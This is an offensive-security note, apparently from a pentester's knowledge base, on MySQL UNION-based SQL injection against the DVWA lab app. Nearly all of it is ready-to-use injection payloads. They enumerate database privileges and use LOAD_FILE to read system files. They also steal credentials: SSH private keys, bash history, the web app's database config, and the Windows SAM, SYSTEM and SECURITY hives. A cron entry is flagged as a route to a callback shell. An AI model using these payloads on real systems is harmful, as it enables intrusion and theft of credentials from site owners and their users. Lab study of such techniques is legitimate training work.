 # 03 - OS Enumeration

Search Tag(s): #sql-injection #union #enumeration-and-discovery #dvwa

## 3.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges.
2. Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). For example, you'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## 3.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv, '\n') FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv, '\n') FROM mysql.user WHERE File_priv = 'Y' AND user = 'dvwa'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE OR 'FILE' AND GRANTEE LIKE "'dvwa'%"#
```

## 3.3 - Basic Information

### 3.3.1 - Linux

- Enumerate hostname

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/hostname')#
```

- Enumerate user accounts

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```

- Enumerate user groups

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/group')#
```

- Local IPv4 address

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/network/interfaces')#

' UNION SELECT NULL, LOAD_FILE('/etc/sysconfig/network')#

' UNION SELECT NULL, LOAD_FILE('/etc/networks')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/resolv.conf')#

' UNION SELECT NULL, LOAD_FILE('/etc/hosts')#
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/profile')#

' UNION SELECT NULL, LOAD_FILE('/etc/bash.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/root/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/root/.bashrc')#
```

- Enumerate installed packages that will give you an idea of what services are installed.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/log/dpkg.log')#

' UNION SELECT NULL, LOAD_FILE('/var/log/yum.log')#
```

- Enumerate kernel version

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/lsb-release')#

' UNION SELECT NULL, LOAD_FILE('/etc/os-release')#

' UNION SELECT NULL, LOAD_FILE('/proc/version')#
```

### 3.3.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('c:/windows/win.ini')#

' UNION SELECT NULL, LOAD_FILE('c:/xampp/php/php.ini')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('c:/Windows/system32/drivers/etc/hosts')#
```

## 3.4 - Credentials

### 3.4.1 - Linux

- Retrieve SSH keys

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/id_rsa')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/id_rsa')#
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Content Management System (CMS)#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/www/html/dvwa/config.php')#
```

- Retrieve history commands. You can find more in the [[Content Management System (CMS)|privilege escalation credentials]] section.

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/.bash_history')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/.bash_history')#
```

### 3.4.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SAM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SYSTEM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/security')#
           
' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/system')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/sam')#
```

## 3.5 - Privilege Escalation

### 3.5.1 - Linux

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/crontab')#
```

## 3.5 - Config Files

### 3.5.1 - Linux

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/ssh/sshd_config')#
```

## 3.6 - Hardware

- Check uptime

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/uptime')#
```

- Enumerate mounted drives and network shares.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/fstab')#
```

- Enumerate CPU cores

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/cpuinfo')#
```

---
## References

### Linux

#### Enumeration and Discovery

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xA - Users/Manual/Living off the Land|Users]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Linux/Environment Variables/Manual/Living off the Land|Environment Variables]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xG - Log Files/Manual/Living off the Land|Log Files]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xL - System and Kernel Version/Manual/Living off the Land|System and Kernel Version]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xC - Scheduled Tasks/Cron Job/Manual/Living off the Land|Cron Job]]

#### Credentials Access and Dumping

- [[Content Management System (CMS)]]

### Windows

#### Enumeration and Discovery

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xC - IP Address/Manual/Living off the Land|IP Addresses]]

#### Privilege Escalation

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Host/Registry/Hashdump/01 - Manual/Living off the Land|Manual Hashdump]]